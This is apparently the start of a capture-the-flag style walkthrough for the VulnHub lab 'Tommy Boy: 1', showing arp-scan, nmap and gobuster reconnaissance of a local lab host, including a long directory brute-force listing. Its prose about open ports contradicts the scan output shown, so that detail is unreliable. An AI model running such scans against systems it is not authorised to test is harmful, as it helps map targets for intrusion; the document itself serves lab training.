

# Tommy Boy: 1
https://www.vulnhub.com/entry/tommy-boy-1,157/

## Discovery

### Command used: arp-scan
<br>

```sh 
arp-scan --interface=ens33 --localnet

Interface: ens33, type: EN10MB, MAC: 00:0c:29:01:a5:1c, IPv4: 172.16.250.97
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)

172.16.250.90	08:00:27:10:b8:d5	PCS Systemtechnik GmbH
```

## Port scan
<i>A full scan determined ports 22 and 8080 were open, and a hosts entry was created for the IP</i>

### Command used: nmap
<br>

```
nmap -T4 -p- --open tommy.vh

Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-29 03:06 CDT
Nmap scan report for tommy.vh (172.16.250.90)
Host is up (0.077s latency).
Not shown: 53067 closed tcp ports (conn-refused), 12465 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8008/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 57.71 seconds
```
<br>

```
nmap -T4 -sV -p22,80,8080 tommy.vh
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-29 03:07 CDT
Nmap scan report for tommy.vh (172.16.250.90)
Host is up (0.0019s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu1 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http       Apache httpd 2.4.18 ((Ubuntu))
8080/tcp closed http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.36 seconds
```

## HTTP enumeration

### Command used: gobuster
<br>

```
gobuster dir --url http://tommy.vh --wordlist /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://tommy.vh
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/29 03:11:23 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 287]
/.htaccess            (Status: 403) [Size: 292]
/.htpasswd            (Status: 403) [Size: 292]
/@                    (Status: 301) [Size: 300] [--> http://tommy.vh/@/]
/_pages               (Status: 301) [Size: 305] [--> http://tommy.vh/_pages/]
/_vti_cnf             (Status: 301) [Size: 307] [--> http://tommy.vh/_vti_cnf/]
/_vti_pvt             (Status: 301) [Size: 307] [--> http://tommy.vh/_vti_pvt/]
/_vti_rpc             (Status: 301) [Size: 307] [--> http://tommy.vh/_vti_rpc/]
/~adm                 (Status: 301) [Size: 303] [--> http://tommy.vh/~adm/]    
/~guest               (Status: 301) [Size: 305] [--> http://tommy.vh/~guest/]  
/~ftp                 (Status: 301) [Size: 303] [--> http://tommy.vh/~ftp/]    
/~operator            (Status: 301) [Size: 308] [--> http://tommy.vh/~operator/]
/~sys                 (Status: 301) [Size: 303] [--> http://tommy.vh/~sys/]     
/~root                (Status: 301) [Size: 304] [--> http://tommy.vh/~root/]    
/~sysadm              (Status: 301) [Size: 306] [--> http://tommy.vh/~sysadm/]  
/~sysadmin            (Status: 301) [Size: 308] [--> http://tommy.vh/~sysadmin/]
/~user                (Status: 301) [Size: 304] [--> http://tommy.vh/~user/]    
/~www                 (Status: 301) [Size: 303] [--> http://tommy.vh/~www/]     
/102                  (Status: 301) [Size: 302] [--> http://tommy.vh/102/]      
/20                   (Status: 301) [Size: 301] [--> http://tommy.vh/20/]       
/2001                 (Status: 301) [Size: 303] [--> http://tommy.vh/2001/]     
/1x1                  (Status: 301) [Size: 302] [--> http://tommy.vh/1x1/]      
/2004                 (Status: 301) [Size: 303] [--> http://tommy.vh/2004/]     
/3                    (Status: 301) [Size: 300] [--> http://tommy.vh/3/]        
/30                   (Status: 301) [Size: 301] [--> http://tommy.vh/30/]       
/aa                   (Status: 301) [Size: 301] [--> http://tommy.vh/aa/]       
/abcd1234             (Status: 301) [Size: 307] [--> http://tommy.vh/abcd1234/] 
/abc                  (Status: 301) [Size: 302] [--> http://tommy.vh/abc/]      
/About                (Status: 301) [Size: 304] [--> http://tommy.vh/About/]    
/aboutus              (Status: 301) [Size: 306] [--> http://tommy.vh/aboutus/]  
/AboutUs              (Status: 301) [Size: 306] [--> http://tommy.vh/AboutUs/]  
/abstract             (Status: 301) [Size: 307] [--> http://tommy.vh/abstract/] 
/a                    (Status: 301) [Size: 300] [--> http://tommy.vh/a/]        
/academic             (Status: 301) [Size: 307] [--> http://tommy.vh/academic/] 
/academics            (Status: 301) [Size: 308] [--> http://tommy.vh/academics/]
/access               (Status: 301) [Size: 305] [--> http://tommy.vh/access/]   
/achitecture          (Status: 301) [Size: 310] [--> http://tommy.vh/achitecture/]
/accounts             (Status: 301) [Size: 307] [--> http://tommy.vh/accounts/]   
/active               (Status: 301) [Size: 305] [--> http://tommy.vh/active/]     
/ad                   (Status: 301) [Size: 301] [--> http://tommy.vh/ad/]         
/admin                (Status: 301) [Size: 304] [--> http://tommy.vh/admin/]      
/admin_               (Status: 301) [Size: 305] [--> http://tommy.vh/admin_/]     
/administrat          (Status: 301) [Size: 310] [--> http://tommy.vh/administrat/]
/adminhelp            (Status: 301) [Size: 308] [--> http://tommy.vh/adminhelp/]  
/Administration       (Status: 301) [Size: 313] [--> http://tommy.vh/Administration/]
/administrator        (Status: 301) [Size: 312] [--> http://tommy.vh/administrator/] 
/adminlogon           (Status: 301) [Size: 309] [--> http://tommy.vh/adminlogon/]    
/advertising          (Status: 301) [Size: 310] [--> http://tommy.vh/advertising/]   
/advertisement        (Status: 301) [Size: 312] [--> http://tommy.vh/advertisement/] 
/affiliate            (Status: 301) [Size: 308] [--> http://tommy.vh/affiliate/]     
/agents               (Status: 301) [Size: 305] [--> http://tommy.vh/agents/]        
/ajax                 (Status: 301) [Size: 303] [--> http://tommy.vh/ajax/]          
/analog               (Status: 301) [Size: 305] [--> http://tommy.vh/analog/]        
/analysis             (Status: 301) [Size: 307] [--> http://tommy.vh/analysis/]      
/and                  (Status: 301) [Size: 302] [--> http://tommy.vh/and/]           
/africa               (Status: 301) [Size: 305] [--> http://tommy.vh/africa/]        
/announcements        (Status: 301) [Size: 312] [--> http://tommy.vh/announcements/] 
/antispam             (Status: 301) [Size: 307] [--> http://tommy.vh/antispam/]      
/aol                  (Status: 301) [Size: 302] [--> http://tommy.vh/aol/]           
/applet               (Status: 301) [Size: 305] [--> http://tommy.vh/applet/]        
/appliance            (Status: 301) [Size: 308] [--> http://tommy.vh/appliance/]     
/applications         (Status: 301) [Size: 311] [--> http://tommy.vh/applications/]  
/ar                   (Status: 301) [Size: 301] [--> http://tommy.vh/ar/]            
/archive              (Status: 301) [Size: 306] [--> http://tommy.vh/archive/]       
/archivos             (Status: 301) [Size: 307] [--> http://tommy.vh/archivos/]      
/articles             (Status: 301) [Size: 307] [--> http://tommy.vh/articles/]      
/article              (Status: 301) [Size: 306] [--> http://tommy.vh/article/]       
/ask                  (Status: 301) [Size: 302] [--> http://tommy.vh/ask/]           
/asia                 (Status: 301) [Size: 303] [--> http://tommy.vh/asia/]          
/aspadmin             (Status: 301) [Size: 307] [--> http://tommy.vh/aspadmin/]      
/aspnet_client        (Status: 301) [Size: 312] [--> http://tommy.vh/aspnet_client/] 
/assets               (Status: 301) [Size: 305] [--> http://tommy.vh/assets/]        
/au                   (Status: 301) [Size: 301] [--> http://tommy.vh/au/]            
/attachments          (Status: 301) [Size: 310] [--> http://tommy.vh/attachments/]   
/author               (Status: 301) [Size: 305] [--> http://tommy.vh/author/]        
/automotive           (Status: 301) [Size: 309] [--> http://tommy.vh/automotive/]    
/aux                  (Status: 301) [Size: 302] [--> http://tommy.vh/aux/]           
/avatars              (Status: 301) [Size: 306] [--> http://tommy.vh/avatars/]       
/awards               (Status: 301) [Size: 305] [--> http://tommy.vh/awards/]        
/automatic            (Status: 301) [Size: 308] [--> http://tommy.vh/automatic/]     
/B                    (Status: 301) [Size: 300] [--> http://tommy.vh/B/]             
/backup               (Status: 301) [Size: 305] [--> http://tommy.vh/backup/]        
/banks                (Status: 301) [Size: 304] [--> http://tommy.vh/banks/]         
/bdata                (Status: 301) [Size: 304] [--> http://tommy.vh/bdata/]         
/baseball             (Status: 301) [Size: 307] [--> http://tommy.vh/baseball/]      
/bea                  (Status: 301) [Size: 302] [--> http://tommy.vh/bea/]           
/beans                (Status: 301) [Size: 304] [--> http://tommy.vh/beans/]         
/bean                 (Status: 301) [Size: 303] [--> http://tommy.vh/bean/]          
/beta                 (Status: 301) [Size: 303] [--> http://tommy.vh/beta/]          
/bios                 (Status: 301) [Size: 303] [--> http://tommy.vh/bios/]          
/bio                  (Status: 301) [Size: 302] [--> http://tommy.vh/bio/]           
/bl                   (Status: 301) [Size: 301] [--> http://tommy.vh/bl/]            
/body                 (Status: 301) [Size: 303] [--> http://tommy.vh/body/]          
/bookstore            (Status: 301) [Size: 308] [--> http://tommy.vh/bookstore/]     
/Books                (Status: 301) [Size: 304] [--> http://tommy.vh/Books/]         
/bot                  (Status: 301) [Size: 302] [--> http://tommy.vh/bot/]           
/book                 (Status: 301) [Size: 303] [--> http://tommy.vh/book/]          
/bsd                  (Status: 301) [Size: 302] [--> http://tommy.vh/bsd/]           
/browse               (Status: 301) [Size: 305] [--> http://tommy.vh/browse/]        
/builder              (Status: 301) [Size: 306] [--> http://tommy.vh/builder/]       
/buscador             (Status: 301) [Size: 307] [--> http://tommy.vh/buscador/]      
/business             (Status: 301) [Size: 307] [--> http://tommy.vh/business/]      
/bb                   (Status: 301) [Size: 301] [--> http://tommy.vh/bb/]            
/c                    (Status: 301) [Size: 300] [--> http://tommy.vh/c/]             
/cachemgr             (Status: 301) [Size: 307] [--> http://tommy.vh/cachemgr/]      
/cache                (Status: 301) [Size: 304] [--> http://tommy.vh/cache/]         
/cardinal             (Status: 301) [Size: 307] [--> http://tommy.vh/cardinal/]      
/cards                (Status: 301) [Size: 304] [--> http://tommy.vh/cards/]         
/cas                  (Status: 301) [Size: 302] [--> http://tommy.vh/cas/]           
/cart                 (Status: 301) [Size: 303] [--> http://tommy.vh/cart/]          
/cases                (Status: 301) [Size: 304] [--> http://tommy.vh/cases/]         
/catch                (Status: 301) [Size: 304] [--> http://tommy.vh/catch/]         
/category             (Status: 301) [Size: 307] [--> http://tommy.vh/category/]      
/cats                 (Status: 301) [Size: 303] [--> http://tommy.vh/cats/]          
/cdrom                (Status: 301) [Size: 304] [--> http://tommy.vh/cdrom/]         
/certificate          (Status: 301) [Size: 310] [--> http://tommy.vh/certificate/]   
/cert                 (Status: 301) [Size: 303] [--> http://tommy.vh/cert/]          
/certificates         (Status: 301) [Size: 311] [--> http://tommy.vh/certificates/]  
/cgibin               (Status: 301) [Size: 305] [--> http://tommy.vh/cgibin/]        
/cgi-bin              (Status: 301) [Size: 306] [--> http://tommy.vh/cgi-bin/]       
/cgi                  (Status: 301) [Size: 302] [--> http://tommy.vh/cgi/]           
/cgi-bin/             (Status: 200) [Size: 739]                                      
/cgi-exe              (Status: 301) [Size: 306] [--> http://tommy.vh/cgi-exe/]       
/cgi-sys              (Status: 301) [Size: 306] [--> http://tommy.vh/cgi-sys/]       
/cgi-win              (Status: 301) [Size: 306] [--> http://tommy.vh/cgi-win/]       
/changelog            (Status: 301) [Size: 308] [--> http://tommy.vh/changelog/]     
/china                (Status: 301) [Size: 304] [--> http://tommy.vh/china/]         
/class                (Status: 301) [Size: 304] [--> http://tommy.vh/class/]         
/clear                (Status: 301) [Size: 304] [--> http://tommy.vh/clear/]         
/classified           (Status: 301) [Size: 309] [--> http://tommy.vh/classified/]    
/cms                  (Status: 301) [Size: 302] [--> http://tommy.vh/cms/]           
/cn                   (Status: 301) [Size: 301] [--> http://tommy.vh/cn/]            
/cnt                  (Status: 301) [Size: 302] [--> http://tommy.vh/cnt/]           
/coffee               (Status: 301) [Size: 305] [--> http://tommy.vh/coffee/]        
/coke                 (Status: 301) [Size: 303] [--> http://tommy.vh/coke/]          
/collapse             (Status: 301) [Size: 307] [--> http://tommy.vh/collapse/]      
/college              (Status: 301) [Size: 306] [--> http://tommy.vh/college/]       
/com2                 (Status: 301) [Size: 303] [--> http://tommy.vh/com2/]          
/columnists           (Status: 301) [Size: 309] [--> http://tommy.vh/columnists/]    
/com3                 (Status: 301) [Size: 303] [--> http://tommy.vh/com3/]          
/common               (Status: 301) [Size: 305] [--> http://tommy.vh/common/]        
/community            (Status: 301) [Size: 308] [--> http://tommy.vh/community/]     
/compare              (Status: 301) [Size: 306] [--> http://tommy.vh/compare/]       
/compat               (Status: 301) [Size: 305] [--> http://tommy.vh/compat/]        
/component            (Status: 301) [Size: 308] [--> http://tommy.vh/component/]     
/components           (Status: 301) [Size: 309] [--> http://tommy.vh/components/]    
/compressed           (Status: 301) [Size: 309] [--> http://tommy.vh/compressed/]    
/Computers            (Status: 301) [Size: 308] [--> http://tommy.vh/Computers/]     
/conf                 (Status: 301) [Size: 303] [--> http://tommy.vh/conf/]          
/configuration        (Status: 301) [Size: 312] [--> http://tommy.vh/configuration/] 
/connections          (Status: 301) [Size: 310] [--> http://tommy.vh/connections/]   
/constant             (Status: 301) [Size: 307] [--> http://tommy.vh/constant/]      
/constants            (Status: 301) [Size: 308] [--> http://tommy.vh/constants/]     
/Contact              (Status: 301) [Size: 306] [--> http://tommy.vh/Contact/]       
/contact              (Status: 301) [Size: 306] [--> http://tommy.vh/contact/]       
/contact_us           (Status: 301) [Size: 309] [--> http://tommy.vh/contact_us/]    
/contactinfo          (Status: 301) [Size: 310] [--> http://tommy.vh/contactinfo/]   
/contacts             (Status: 301) [Size: 307] [--> http://tommy.vh/contacts/]      
/contact-us           (Status: 301) [Size: 309] [--> http://tommy.vh/contact-us/]    
/ContactUs            (Status: 301) [Size: 308] [--> http://tommy.vh/ContactUs/]     
/Content              (Status: 301) [Size: 306] [--> http://tommy.vh/Content/]       
/contents             (Status: 301) [Size: 307] [--> http://tommy.vh/contents/]      
/contests             (Status: 301) [Size: 307] [--> http://tommy.vh/contests/]      
/controller           (Status: 301) [Size: 309] [--> http://tommy.vh/controller/]    
/counter              (Status: 301) [Size: 306] [--> http://tommy.vh/counter/]       
/country              (Status: 301) [Size: 306] [--> http://tommy.vh/country/]       
/cp                   (Status: 301) [Size: 301] [--> http://tommy.vh/cp/]            
/CPAN                 (Status: 301) [Size: 303] [--> http://tommy.vh/CPAN/]          
/creditcards          (Status: 301) [Size: 310] [--> http://tommy.vh/creditcards/]   
/crs                  (Status: 301) [Size: 302] [--> http://tommy.vh/crs/]           
/cron                 (Status: 301) [Size: 303] [--> http://tommy.vh/cron/]          
/custom               (Status: 301) [Size: 305] [--> http://tommy.vh/custom/]        
/CYBERDOCS25          (Status: 301) [Size: 310] [--> http://tommy.vh/CYBERDOCS25/]   
/databases            (Status: 301) [Size: 308] [--> http://tommy.vh/databases/]     
/date                 (Status: 301) [Size: 303] [--> http://tommy.vh/date/]          
/db                   (Status: 301) [Size: 301] [--> http://tommy.vh/db/]            
/dbm                  (Status: 301) [Size: 302] [--> http://tommy.vh/dbm/]           
/dbms                 (Status: 301) [Size: 303] [--> http://tommy.vh/dbms/]          
/dc                   (Status: 301) [Size: 301] [--> http://tommy.vh/dc/]            
/de_DE                (Status: 301) [Size: 304] [--> http://tommy.vh/de_DE/]         
/debian               (Status: 301) [Size: 305] [--> http://tommy.vh/debian/]        
/debug                (Status: 301) [Size: 304] [--> http://tommy.vh/debug/]         
/default              (Status: 301) [Size: 306] [--> http://tommy.vh/default/]       
Progress: 1221 / 4615 (26.46%)                                                  /defaults             (Status: 301) [Size: 307] [--> http://tommy.vh/defaults/]      
/delete               (Status: 301) [Size: 305] [--> http://tommy.vh/delete/]        
/deletion             (Status: 301) [Size: 307] [--> http://tommy.vh/deletion/]      
/demo                 (Status: 301) [Size: 303] [--> http://tommy.vh/demo/]          
/deploy               (Status: 301) [Size: 305] [--> http://tommy.vh/deploy/]        
/deny                 (Status: 301) [Size: 303] [--> http://tommy.vh/deny/]          
/dev                  (Status: 301) [Size: 302] [--> http://tommy.vh/dev/]           
/deutsch              (Status: 301) [Size: 306] [--> http://tommy.vh/deutsch/]       
/devel                (Status: 301) [Size: 304] [--> http://tommy.vh/devel/]         
/developers           (Status: 301) [Size: 309] [--> http://tommy.vh/developers/]    
/devices              (Status: 301) [Size: 306] [--> http://tommy.vh/devices/]       
/dev60cgi             (Status: 301) [Size: 307] [--> http://tommy.vh/dev60cgi/]      
/desktops             (Status: 301) [Size: 307] [--> http://tommy.vh/desktops/]      
/devtools             (Status: 301) [Size: 307] [--> http://tommy.vh/devtools/]      
/diary                (Status: 301) [Size: 304] [--> http://tommy.vh/diary/]         
/directories          (Status: 301) [Size: 310] [--> http://tommy.vh/directories/]   
/directory            (Status: 301) [Size: 308] [--> http://tommy.vh/directory/]     
/discussion           (Status: 301) [Size: 309] [--> http://tommy.vh/discussion/]    
/disk                 (Status: 301) [Size: 303] [--> http://tommy.vh/disk/]          
/dispatcher           (Status: 301) [Size: 309] [--> http://tommy.vh/dispatcher/]    
/divider              (Status: 301) [Size: 306] [--> http://tommy.vh/divider/]       
/dl                   (Status: 301) [Size: 301] [--> http://tommy.vh/dl/]            
/display              (Status: 301) [Size: 306] [--> http://tommy.vh/display/]       
/docs51               (Status: 301) [Size: 305] [--> http://tommy.vh/docs51/]        
/donate               (Status: 301) [Size: 305] [--> http://tommy.vh/donate/]        
/docs                 (Status: 301) [Size: 303] [--> http://tommy.vh/docs/]          
/down                 (Status: 301) [Size: 303] [--> http://tommy.vh/down/]          
/download             (Status: 301) [Size: 307] [--> http://tommy.vh/download/]      
/Download             (Status: 301) [Size: 307] [--> http://tommy.vh/Download/]      
/driver               (Status: 301) [Size: 305] [--> http://tommy.vh/driver/]        
/drivers              (Status: 301) [Size: 306] [--> http://tommy.vh/drivers/]       
/dragon               (Status: 301) [Size: 305] [--> http://tommy.vh/dragon/]        
/ds                   (Status: 301) [Size: 301] [--> http://tommy.vh/ds/]            
/downloads            (Status: 301) [Size: 308] [--> http://tommy.vh/downloads/]     
/dumpenv              (Status: 301) [Size: 306] [--> http://tommy.vh/dumpenv/]       
/dvd                  (Status: 301) [Size: 302] [--> http://tommy.vh/dvd/]           
/dump                 (Status: 301) [Size: 303] [--> http://tommy.vh/dump/]          
/ebay                 (Status: 301) [Size: 303] [--> http://tommy.vh/ebay/]          
/echannel             (Status: 301) [Size: 307] [--> http://tommy.vh/echannel/]      
/edgy                 (Status: 301) [Size: 303] [--> http://tommy.vh/edgy/]          
/Education            (Status: 301) [Size: 308] [--> http://tommy.vh/Education/]     
/e-mail               (Status: 301) [Size: 305] [--> http://tommy.vh/e-mail/]        
/engine               (Status: 301) [Size: 305] [--> http://tommy.vh/engine/]        
/energy               (Status: 301) [Size: 305] [--> http://tommy.vh/energy/]        
/eng                  (Status: 301) [Size: 302] [--> http://tommy.vh/eng/]           
/engines              (Status: 301) [Size: 306] [--> http://tommy.vh/engines/]       
/English              (Status: 301) [Size: 306] [--> http://tommy.vh/English/]       
/entertainment        (Status: 301) [Size: 312] [--> http://tommy.vh/entertainment/] 
/enterprise           (Status: 301) [Size: 309] [--> http://tommy.vh/enterprise/]    
/Entertainment        (Status: 301) [Size: 312] [--> http://tommy.vh/Entertainment/] 
/es_ES                (Status: 301) [Size: 304] [--> http://tommy.vh/es_ES/]         
/esupport             (Status: 301) [Size: 307] [--> http://tommy.vh/esupport/]      
/events               (Status: 301) [Size: 305] [--> http://tommy.vh/events/]        
/Events               (Status: 301) [Size: 305] [--> http://tommy.vh/Events/]        
/europe               (Status: 301) [Size: 305] [--> http://tommy.vh/europe/]        
/exec                 (Status: 301) [Size: 303] [--> http://tommy.vh/exec/]          
/executable           (Status: 301) [Size: 309] [--> http://tommy.vh/executable/]    
/exiar                (Status: 301) [Size: 304] [--> http://tommy.vh/exiar/]         
/exploits             (Status: 301) [Size: 307] [--> http://tommy.vh/exploits/]      
/explorer             (Status: 301) [Size: 307] [--> http://tommy.vh/explorer/]      
/extension            (Status: 301) [Size: 308] [--> http://tommy.vh/extension/]     
/external             (Status: 301) [Size: 307] [--> http://tommy.vh/external/]      
/Extranet             (Status: 301) [Size: 307] [--> http://tommy.vh/Extranet/]      
/extra                (Status: 301) [Size: 304] [--> http://tommy.vh/extra/]         
/f                    (Status: 301) [Size: 300] [--> http://tommy.vh/f/]             
/fail                 (Status: 301) [Size: 303] [--> http://tommy.vh/fail/]          
/failed               (Status: 301) [Size: 305] [--> http://tommy.vh/failed/]        
/family               (Status: 301) [Size: 305] [--> http://tommy.vh/family/]        
/FAQ                  (Status: 301) [Size: 302] [--> http://tommy.vh/FAQ/]           
/faqs                 (Status: 301) [Size: 303] [--> http://tommy.vh/faqs/]          
/fcgi-bin             (Status: 301) [Size: 307] [--> http://tommy.vh/fcgi-bin/]      
/feature              (Status: 301) [Size: 306] [--> http://tommy.vh/feature/]       
/features             (Status: 301) [Size: 307] [--> http://tommy.vh/features/]      
/feedback             (Status: 301) [Size: 307] [--> http://tommy.vh/feedback/]      
/fedora               (Status: 301) [Size: 305] [--> http://tommy.vh/fedora/]        
/filelist             (Status: 301) [Size: 307] [--> http://tommy.vh/filelist/]      
/file                 (Status: 301) [Size: 303] [--> http://tommy.vh/file/]          
/fileadmin            (Status: 301) [Size: 308] [--> http://tommy.vh/fileadmin/]     
/field                (Status: 301) [Size: 304] [--> http://tommy.vh/field/]         
/files                (Status: 301) [Size: 304] [--> http://tommy.vh/files/]         
/firefox              (Status: 301) [Size: 306] [--> http://tommy.vh/firefox/]       
/find                 (Status: 301) [Size: 303] [--> http://tommy.vh/find/]          
/flags                (Status: 301) [Size: 304] [--> http://tommy.vh/flags/]         
/flex                 (Status: 301) [Size: 303] [--> http://tommy.vh/flex/]          
/fonts                (Status: 301) [Size: 304] [--> http://tommy.vh/fonts/]         
/folder_new           (Status: 301) [Size: 309] [--> http://tommy.vh/folder_new/]    
/font                 (Status: 301) [Size: 303] [--> http://tommy.vh/font/]          
/food                 (Status: 301) [Size: 303] [--> http://tommy.vh/food/]          
/format               (Status: 301) [Size: 305] [--> http://tommy.vh/format/]        
/formupdate           (Status: 301) [Size: 309] [--> http://tommy.vh/formupdate/]    
/forms                (Status: 301) [Size: 304] [--> http://tommy.vh/forms/]         
/forum_old            (Status: 301) [Size: 308] [--> http://tommy.vh/forum_old/]     
/foto                 (Status: 301) [Size: 303] [--> http://tommy.vh/foto/]          
/forward              (Status: 301) [Size: 306] [--> http://tommy.vh/forward/]       
/fr_FR                (Status: 301) [Size: 304] [--> http://tommy.vh/fr_FR/]         
/fr                   (Status: 301) [Size: 301] [--> http://tommy.vh/fr/]            
/france               (Status: 301) [Size: 305] [--> http://tommy.vh/france/]        
/free                 (Status: 301) [Size: 303] [--> http://tommy.vh/free/]          
/front                (Status: 301) [Size: 304] [--> http://tommy.vh/front/]         
/french               (Status: 301) [Size: 305] [--> http://tommy.vh/french/]        
/friends              (Status: 301) [Size: 306] [--> http://tommy.vh/friends/]       
/freeware             (Status: 301) [Size: 307] [--> http://tommy.vh/freeware/]      
/fuckoff              (Status: 301) [Size: 306] [--> http://tommy.vh/fuckoff/]       
/fuckyou              (Status: 301) [Size: 306] [--> http://tommy.vh/fuckyou/]       
/furl                 (Status: 301) [Size: 303] [--> http://tommy.vh/furl/]          
/future               (Status: 301) [Size: 305] [--> http://tommy.vh/future/]        
/g                    (Status: 301) [Size: 300] [--> http://tommy.vh/g/]             
/G                    (Status: 301) [Size: 300] [--> http://tommy.vh/G/]             
/game                 (Status: 301) [Size: 303] [--> http://tommy.vh/game/]          
/Games                (Status: 301) [Size: 304] [--> http://tommy.vh/Games/]         
/gate                 (Status: 301) [Size: 303] [--> http://tommy.vh/gate/]          
/gateway              (Status: 301) [Size: 306] [--> http://tommy.vh/gateway/]       
/gentoo               (Status: 301) [Size: 305] [--> http://tommy.vh/gentoo/]        
/gest                 (Status: 301) [Size: 303] [--> http://tommy.vh/gest/]          
/get                  (Status: 301) [Size: 302] [--> http://tommy.vh/get/]           
/gifts                (Status: 301) [Size: 304] [--> http://tommy.vh/gifts/]         
/glossary             (Status: 301) [Size: 307] [--> http://tommy.vh/glossary/]      
/go                   (Status: 301) [Size: 301] [--> http://tommy.vh/go/]            
/gone                 (Status: 301) [Size: 303] [--> http://tommy.vh/gone/]          
Progress: 1827 / 4615 (39.59%)                                                  /gpapp                (Status: 301) [Size: 304] [--> http://tommy.vh/gpapp/]         
/gps                  (Status: 301) [Size: 302] [--> http://tommy.vh/gps/]           
/gr                   (Status: 301) [Size: 301] [--> http://tommy.vh/gr/]            
/granted              (Status: 301) [Size: 306] [--> http://tommy.vh/granted/]       
/graphics             (Status: 301) [Size: 307] [--> http://tommy.vh/graphics/]      
/group                (Status: 301) [Size: 304] [--> http://tommy.vh/group/]         
/Graphics             (Status: 301) [Size: 307] [--> http://tommy.vh/Graphics/]      
/guess                (Status: 301) [Size: 304] [--> http://tommy.vh/guess/]         
/guests               (Status: 301) [Size: 305] [--> http://tommy.vh/guests/]        
/guide                (Status: 301) [Size: 304] [--> http://tommy.vh/guide/]         
/guestbook            (Status: 301) [Size: 308] [--> http://tommy.vh/guestbook/]     
/guides               (Status: 301) [Size: 305] [--> http://tommy.vh/guides/]        
/H                    (Status: 301) [Size: 300] [--> http://tommy.vh/H/]             
/hacker               (Status: 301) [Size: 305] [--> http://tommy.vh/hacker/]        
/happening            (Status: 301) [Size: 308] [--> http://tommy.vh/happening/]     
/harmony              (Status: 301) [Size: 306] [--> http://tommy.vh/harmony/]       
/header_logo          (Status: 301) [Size: 310] [--> http://tommy.vh/header_logo/]   
/Health               (Status: 301) [Size: 305] [--> http://tommy.vh/Health/]        
/hardcore             (Status: 301) [Size: 307] [--> http://tommy.vh/hardcore/]      
/headlines            (Status: 301) [Size: 308] [--> http://tommy.vh/headlines/]     
/Help                 (Status: 301) [Size: 303] [--> http://tommy.vh/Help/]          
/hide                 (Status: 301) [Size: 303] [--> http://tommy.vh/hide/]          
/hidden               (Status: 301) [Size: 305] [--> http://tommy.vh/hidden/]        
/Home                 (Status: 301) [Size: 303] [--> http://tommy.vh/Home/]          
/homework             (Status: 301) [Size: 307] [--> http://tommy.vh/homework/]      
/homepage             (Status: 301) [Size: 307] [--> http://tommy.vh/homepage/]      
/home                 (Status: 301) [Size: 303] [--> http://tommy.vh/home/]          
/hotels               (Status: 301) [Size: 305] [--> http://tommy.vh/hotels/]        
/htmls                (Status: 301) [Size: 304] [--> http://tommy.vh/htmls/]         
/humor                (Status: 301) [Size: 304] [--> http://tommy.vh/humor/]         
/ibm                  (Status: 301) [Size: 302] [--> http://tommy.vh/ibm/]           
/I                    (Status: 301) [Size: 300] [--> http://tommy.vh/I/]             
/id                   (Status: 301) [Size: 301] [--> http://tommy.vh/id/]            
/idbc                 (Status: 301) [Size: 303] [--> http://tommy.vh/idbc/]          
/iis                  (Status: 301) [Size: 302] [--> http://tommy.vh/iis/]           
/iisadmin             (Status: 301) [Size: 307] [--> http://tommy.vh/iisadmin/]      
/iisadmpwd            (Status: 301) [Size: 308] [--> http://tommy.vh/iisadmpwd/]     
/Image                (Status: 301) [Size: 304] [--> http://tommy.vh/Image/]         
/image                (Status: 301) [Size: 304] [--> http://tommy.vh/image/]         
/im                   (Status: 301) [Size: 301] [--> http://tommy.vh/im/]            
/images01             (Status: 301) [Size: 307] [--> http://tommy.vh/images01/]      
/import               (Status: 301) [Size: 305] [--> http://tommy.vh/import/]        
/impressum            (Status: 301) [Size: 308] [--> http://tommy.vh/impressum/]     
/in                   (Status: 301) [Size: 301] [--> http://tommy.vh/in/]            
/includes             (Status: 301) [Size: 307] [--> http://tommy.vh/includes/]      
/index.html           (Status: 200) [Size: 1176]                                     
/index_01             (Status: 301) [Size: 307] [--> http://tommy.vh/index_01/]      
/index                (Status: 301) [Size: 304] [--> http://tommy.vh/index/]         
/index_adm            (Status: 301) [Size: 308] [--> http://tommy.vh/index_adm/]     
/index3               (Status: 301) [Size: 305] [--> http://tommy.vh/index3/]        
/index1               (Status: 301) [Size: 305] [--> http://tommy.vh/index1/]        
/industries           (Status: 301) [Size: 309] [--> http://tommy.vh/industries/]    
/ingress              (Status: 301) [Size: 306] [--> http://tommy.vh/ingress/]       
/ini                  (Status: 301) [Size: 302] [--> http://tommy.vh/ini/]           
